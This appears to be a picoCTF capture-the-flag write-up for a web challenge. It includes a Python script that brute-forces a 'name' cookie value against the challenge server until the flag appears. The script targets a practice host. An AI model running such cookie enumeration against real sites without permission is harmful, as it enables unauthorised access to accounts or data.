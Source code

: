 After inspecting the cookies under "Application" in the dev-tools menu [link](http://mercury.picoctf.net:6418/)
we can see that the response of the web page will be determined by the value given to the `name` cookie.

With the following script we can loop over a number of possible values.

``` py
import requests

url = "http://mercury.picoctf.net:6418/check"

payload = ""

for i in range(0,30):
    headers = {
        'Accept': "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        'Accept-Language': "en-US;q=0.5",
        'Cache-Control': "no-cache",
        'Connection': "keep-alive",
        'Cookie': "name=" + str(i),
        'Pragma': "no-cache",
        'Referer': "http://mercury.picoctf.net:6418/",
        'Sec-GPC': "1",
        'Upgrade-Insecure-Requests': "1",
        'User-Agent': "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.61 Safari/537.36"
        }

    response = requests.request("GET", url, data=payload, headers=headers)

    r = response.text

    if "That is a cookie! Not very special though..." in r:
        print(f"{i}: yes")
    else:
        print(f"{i}: no")

```

The script quickly checks if the same message appears in all responses. We can quickly see that the request where the cookie has a value of `18` doesn't include it. This was the correct cookie and the flag is revealed.
